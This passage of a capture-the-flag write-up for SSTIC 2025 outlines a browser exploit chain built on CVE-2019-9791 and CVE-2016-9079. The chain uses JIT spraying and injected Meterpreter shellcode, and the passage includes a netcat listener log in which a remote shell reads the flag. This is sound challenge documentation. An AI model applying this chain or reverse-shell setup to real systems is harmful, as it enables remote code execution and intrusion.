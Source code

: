 1. Use CVE-2019-9791 to leak the upper bits of heap addresses and derive an arbitrary write primitive
2. Spray ASM.JS JIT modules
3. Use the leak to make a hypothesis for a valid JIT page address
4. Use the write primitive to write the fake heap object in the JIT page
5. Use the write primitive to write a shellcode in the JIT page (more flexible than writing it through JIT-emitted constants)
6. Use CVE-2016-9079 to achieve code execution

This bug chain is ultimately not very elegant, since we could have used CVE-2019-9791 on its own to achieve code execution. I overkilled it a bit, but it's a valid solution and that's what I came up with in a limited timeframe. The full exploit for this step is available [here](/files/sstic-2025/step3.html).

I used Meterpreter to generate a shellcode for a Windows remote shell, delivered the malicious HTML page and set up the TCP listener both using [Serveo](https://serveo.net/), and after 2 or 3 tries, the exploit landed on the remote. We successfully gain a **remote shell**, and we are able to read the flag.

```
PS C:\Users\face0xff> .\nc.exe -lvp 1337
listening on [any] 1337 ...
Microsoft Windows [Version 10.0.17763.7009]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Chall\MySuperThickClient>dir
06/04/2025  21:49    <DIR>          .
06/04/2025  21:49    <DIR>          ..
06/04/2025  21:49    <DIR>          Firefox
06/01/2018  04:09         1.957.376 Geckofx-Core.dll
06/01/2018  04:09         4.478.464 Geckofx-Core.pdb
06/01/2018  04:09           127.488 Geckofx-Winforms.dll
06/01/2018  04:09           241.152 Geckofx-Winforms.pdb
28/03/2025  00:52               186 SouperClient.config
28/03/2025  01:06             8.192 SouperClient.exe
28/03/2025  01:06            34.304 SouperClient.pdb
C:\Chall\MySuperThickClient>cd ..
C:\Chall>dir
08/04/2025  01:57    <DIR>          .
08/04/2025  01:57    <DIR>          ..
06/04/2025  21:45                55 flag.txt
06/04/2025  21:46    <DIR>          FlagProvider
06/04/2025  21:44    <DIR>          MFDProxy
06/04/2025  21:49    <DIR>          MySuperThickClient
06/04/2025  21:46               403 TODO.txt
C:\Chall>type flag.txt
SSTIC{58e9ab359732a4a5408661470bb3bf34e9b8362c639f5b83}
C:\Chall>type TODO.txt
Pfiou, j'ai enfin fini ce flag provider, on approche de la fin.

TODO:
 * Add IP blocklist in case of spam
 * Ajouter un module de visualisation des flags rat.s c.t. admin
 * Tester le flag provider, et l'ajout de flags en tant qu'admin
 * Tester la feature d'obtention de l'email final
 * Impl.menter le get d'email depuis le client lourd
   (je ne sais pas si j'aurai le temps pour celui l. ...)
    \end{minted}
```
